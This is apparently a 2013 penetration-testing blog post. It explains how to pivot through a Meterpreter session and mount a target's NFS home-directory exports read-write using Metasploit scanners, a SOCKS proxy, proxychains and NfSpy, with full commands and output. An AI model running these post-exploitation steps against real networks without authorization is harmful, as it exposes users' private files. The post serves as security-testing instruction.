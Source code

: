 ---
author: mubix
comments: true
date: 2013-03-04 21:20:19+00:00
layout: post
title: Mounting NFS shares through Meterpreter with NfSpy
categories:
- tools
- nfs
---

You've found an NFS share on a pentest, it's sharing out your target's home directories (/home) and some SAN with all of the Windows AD users "home" directories under /volumes/users/. You only have a meterpreter session though... enough back story, problem is that Metasploit doesn't really have any auxiliary modules or otherwise to access the things on those shares. Please correct me if I'm wrong, but there also aren't any tools for talking to NFS shares over TCP only proxies.

Enter NfSpy: [https://github.com/bonsaiviking/NfSpy](https://github.com/bonsaiviking/NfSpy)

While it's original intent was aide in bypassing NFS security controls it has the right amount of options to make mounting NFS over Meterpreter possible.

First we setup up our route so that the aux module will go over the meterpreter session:

```
route add 192.168.1.0 255.255.255.0 1
```

The 1 on the end being the meterpreter session number it's going to be going through. Next up is to find out what exports are available:


```    
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > show options

Module options (auxiliary/scanner/nfs/nfsmount):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    111              yes       The target port
   THREADS  1                yes       The number of concurrent threads<

msf auxiliary(nfsmount) > set RHOSTS 192.168.1.50
RHOSTS => 192.168.1.50
msf auxiliary(nfsmount) > run
[+] 192.168.1.50 NFS Export: /home [192.168.1.0/24]
[+] 192.168.1.50 NFS Export: /volume/users [192.168.1.0/24]
```
  
Looks like access is restricked by IP range, but luckily the victim is in said range. The final piece of information we need is the TCP port(s) that mountd is listening on. There is a metasploit module that can help use there too:

``` 
msf > use auxiliary/scanner/misc/sunrpc_portmapper
msf auxiliary(sunrpc_portmapper) > show options

Module options (auxiliary/scanner/misc/sunrpc_portmapper):

   Name     Current Setting  Required  Description<
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    111              yes       The target port
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(sunrpc_portmapper) > set RHOSTS 192.168.1.50
RHOSTS => 192.168.1.50
msf auxiliary(sunrpc_portmapper) > run

[+] 192.168.1.50 - Programs available
        rpcbind - 111/tcp
        rpcbind - 111/udp
        status - 46797/udp
        status - 55731/tcp
        nfs - 2049/tcp
        nfs_acl - 2049/tcp
        nfs - 2049/udp
        nfs_acl - 2049/udp
        nlockmgr - 54167/udp
        nlockmgr - 38216/tcp
        mountd - 52569/udp<
        mountd - 37719/tcp
        mountd - 39099/udp
        mountd - 55763/tcp
        mountd - 37808/udp
        mountd - 54457/tcp
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Cool, so lets target /home first with the mountd tcp port of 37719. Keeping our route where it is we set up Metasploit's socks proxy:

```
msf > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options

Module options (auxiliary/server/socks4a):
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The address to listen on
  SRVPORT  1080             yes       The port to listen on.

msf auxiliary(socks4a) > set SRVPORT 9050
SRVPORT => 9050
msf auxiliary(socks4a) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
```

I chose 9050 as my SRVPORT since I have proxychains already set up for that port (ala tor) and I highly recommend setting the SRVHOST to 127.0.0.1, unless you either firewall that port off from the Internet or don't mind having the Anons of the world surf through your meterpreter session into your clients.

Next up it actually using nfspy (create or prep a directory so you can mount it first):

```
proxychains nfspy -d -o server=192.168.1.50:/home,nfsport=2049/tcp,mountport=37719/tcp,rw /root/nfspy/mount
ProxyChains-3.1 (http://proxychains.sf.net)
FUSE library version: 2.8.6
nullpath_ok: 0
unique: 1, opcode: INIT (26), nodeid: 0, insize: 56
INIT: 7.16
flags=0x0000007b
max_readahead=0x00020000
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.1.50:37719-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.1.50:2049-<><>-OK
  INIT: 7.12
  flags=0x00000011
  max_readahead=0x00020000
  max_write=0x00020000
  unique: 1, success, outsize: 40
```

`proxychains nfspy -d -o server=192.168.1.50:/home,nfsport=2049/tcp,mountport=37719/tcp,rw /root/nfspy/mount`

Lets break that command down. Proxychains will wrap nfspy so that it goes through our Metasploit Socks4a proxy. The -d tells NfSpy to stay in the foreground, and -o for options. Server is our target IP, only use a hostname if your attacker box can resolve it to the right IP. The export we found with the Metasploit module is up next, and the default NFS port of 2049. The mountport option is from the port mapper Metasploit module. Both of these port options be sure you specify the /tcp or you'll just be waiting as there isn't really a time out and Proxychains doesn't show UDP attempts. RW for read-write and finally the location to mount to.

If you see that second proxychains request for port 2049 it is usually a good indicator that it worked, if not you have probably run into anything from a permissions issue to a local mount problem. NfSpy uses fuse which can be really silent when problems arrise or give errors that tell you nothing meaningful. Thats why I'm using the -d option that keeps nfspy in the foreground, just so I can detect any issues. Lets see if that worked:

```
ls /root/nfspy/mount
user1
user2
user3
user4
```

Remember, big directories might take a while to navigate being tunneled like this. Here is the output from the ls on the nfspy side:

```
unique: 166, opcode: OPENDIR (27), nodeid: 34, insize: 48
   unique: 166, success, outsize: 32
unique: 167, opcode: READDIR (28), nodeid: 34, insize: 80
readdir[0] from 0
   unique: 167, success, outsize: 208
unique: 168, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user3
getattr /home/user3
   NODEID: 40
   unique: 168, success, outsize: 144
unique: 169, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user1
getattr /home/user1
   NODEID: 41
   unique: 169, success, outsize: 144
unique: 170, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user4
getattr /home/user4
   NODEID: 42
   unique: 170, success, outsize: 144
unique: 171, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user2
getattr /home/user2
   NODEID: 43
   unique: 171, success, outsize: 144
```

Thats it. You can mount read-write (rw) or read-only (ro) depending on what you want to do and how quiet you want to be.

Last note, you can't just CTRL-C an nfspy mount, you need to use `fusermount -u /root/nfspy/mount` to kill it. It's another fuse issue. If anyone has a better way to do this I'm all ears.
